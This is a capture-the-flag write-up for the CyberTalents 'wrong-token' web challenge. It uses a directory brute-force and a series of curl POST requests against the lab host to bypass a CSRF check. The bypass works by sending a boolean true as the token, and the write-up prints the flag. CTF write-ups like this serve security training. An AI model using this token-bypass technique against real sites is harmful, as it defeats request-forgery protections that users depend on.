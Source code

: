# Solve wrong-token
#### https://cybertalents.com/challenges/web/wrong-token
Request to the flag is forbidden due to wrong csrf token ... can you fix it and reveal the flag
![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

No output

### Analyze the source code
```js
<script type="text/javascript">
		$.ajax('index.php', {
		    type: 'post',
		    contentType: 'application/json',
		    data: '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}',
		});
    </script>
```

```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php -d '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}'
```
Response : the page only except json 
```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag", "_token": "asdjhDJhfkjdI"}'
```
Response : Failed Comparison ( incoming CSRF token != Session CSRF token )

### Bypass CSRF topken 
#### Remove the Token Field
```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag"}'
```
Response : Failed Comparison ( incoming CSRF token != Session CSRF token )

```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag", "_token": ""}'
```
#### Send an Empty Token
```bash
curl -X POST http://wcamxwl32pue3e6mxwl321pseve6j6zqdkgxu639-web.cybertalentslabs.com/index.php \
-H "Content-Type: application/json" \
-d '{"action": "view_flag", "_token":true}'
```
flag is : dkjfhsdkhfr43r34r3

>Find More on ==> github.com/MedhatHassan 
